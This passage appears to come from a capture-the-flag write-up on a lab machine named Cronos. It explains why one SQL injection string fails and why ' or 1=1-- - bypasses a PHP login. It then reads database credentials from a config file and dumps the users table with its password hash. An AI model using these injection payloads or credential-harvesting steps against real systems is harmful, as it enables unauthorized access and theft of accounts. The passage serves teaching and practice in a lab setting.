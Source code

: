     SELECT id FROM users WHERE username = '' or '1'='1' and password = 'admin'



Since `AND` has precedence over `OR`, this results in:



    SELECT id FROM users WHERE username = '' or ('1'='1' and password = 'admin')



This fails.

But later when I enter `' or 1=1-- -`, it becomes:



    SELECT id FROM users WHERE username = '' or 1=1-- -' and password = '$mypassword'



That will return all the users from the database.

Next the PHP checks that exactly one row was returned. If I log into the
database from Cronos, I can see that the DB only has one user in it.
First get the creds in `/var/www/admin/config.php`:



    <?php
       define('DB_SERVER', 'localhost');
       define('DB_USERNAME', 'admin');
       define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
       define('DB_DATABASE', 'admin');
       $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
    ?>



Now I can connect and dump the users:



    root@cronos:/var/www/admin# mysql -u admin -pkEjdbRigfBHUREiNSDs admin 
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 47
    Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

    Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql> select * from users;
    +----+----------+----------------------------------+
    | id | username | password                         |
    +----+----------+----------------------------------+
    |  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
    +----+----------+----------------------------------+
    1 row in set (0.00 sec)
